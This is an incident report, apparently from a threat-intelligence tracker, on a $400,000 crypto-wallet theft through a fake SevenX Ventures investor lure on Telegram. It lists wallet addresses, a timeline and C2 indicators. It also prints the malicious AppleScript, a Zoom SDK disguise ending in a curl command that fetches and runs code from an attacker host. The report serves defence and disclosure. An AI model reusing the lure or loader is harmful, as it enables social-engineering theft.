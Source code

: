 # Theft from Individual C4

Date: June 28th, 2024

Time:: 06:19

Amount Stolen: $400,000

Tags: 🔑 SquidSquad

---

## Details

Contacted by Telegram account impersonating VC.

jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained.



## Onchain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1 - Theft

- 0x47aac2e0d93baf0e5b0cd66032041f5f02af7945 - Theft/Consolidation (Moves July 18, 2023)

- 0x7527690cdc36e3180197d9b65d6bb86101b27718 - eXch Depo
- 0x8d04169c64a4f083154cfe1e7c4f84073489f584 - eXch Depo
- 0x7ea5c7e866bbee6535b33c30ba4b5eab3506cfdf - eXch Depo
- 0xc14857054571ca848d30b3be832434a31cba267c - eXch Depo
- 0x25796e53bd64c4a922d9b004d9806be211d01ed1 - eXch Depo
- 0x1a4885b76a88fc8c7ad667944129fccacefd2ed6 - eXch Depo
- 0x7d577a5ca50ecf947900eab06943da4d003e19a1 - eXch Depo
- 0x9258d93045a2974874178001adc1f2b9b6a6e975 - eXch Depo


## Timeline

- 2024-Jun-28 06:19 - Theft
- 2024-Jul-18 00:38 - Consolidation
- 2024-Jul-23 01:16 - Laundry
- 2024-Aug-26 00:50 - Laundry


## Connections

- C7 Theft


## URLs

- https://twitter.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon


## Malicious Script

###############################################################
#
#
# 🎦 Meeting SDK
#
#
# # Embed the Zoom meeting and webinar experience in an app or website.
#
#
# #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar
# #  experience in your app or website. The Meeting SDK interface resembles the Zoom
# #  client, except that it lives inside your own app or website.
#
#
# # Enhance the users' experience
#
#
#
#  Native platforms for mobile and desktop offer a default UI, which looks similar to the
#
#  Zoom client, and a custom UI, which offers the ability to completely customize the
#
#   user interface.
#
#
#
#   The web SDK offers a client view, which looks similar to the Zoom client, and a
#
#   modular component view, which displays the Meeting SDK in components on your
#
#   website.
#
#
# # Meeting and webinar authorization
#
#
# #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let
# #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on
# #  behalf of other users using a ZAK (Zoom Access Key) token.
#
#
#
#      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.
#
#
# #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to
# #  to connect their accounts to your Meeting SDK.
#
#
#
#
#
##############################################################
#
#  Start meeting using ZAK(Zoom Access Key)token.
set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc



## C2s

- support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.




## Related Incidents

- 7xvc[.]virtual-collab[.]online

- support[.]virtual-collab[.]online

- www[.]virtual-collab[.]online

- technical-support[.]virtual-collab[.]online


![](../images/2024-07-01_SQSQ_7xv_1.jpg)

![](../images/2024-07-01_SQSQ_7xv_2.jpg)

![](../images/2024-07-01_SQSQ_7xv_3.jpg)



